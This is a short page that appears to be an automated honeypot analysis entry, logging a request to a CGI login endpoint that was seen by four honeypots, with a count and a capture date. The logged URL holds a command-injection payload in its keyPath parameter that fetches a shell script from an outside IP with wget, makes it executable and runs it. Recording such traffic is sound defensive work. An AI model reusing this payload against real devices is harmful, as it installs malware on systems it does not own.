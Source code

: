 # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+http%3A%2F%2F108.174.62.168%2FHilix.sh+%3B+chmod+777+Hilix.sh+%3B+sh+Hilix.sh&loginUser=a&loginPwd=a
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 4 | 5 | | 220110-033754 |

## CVE: 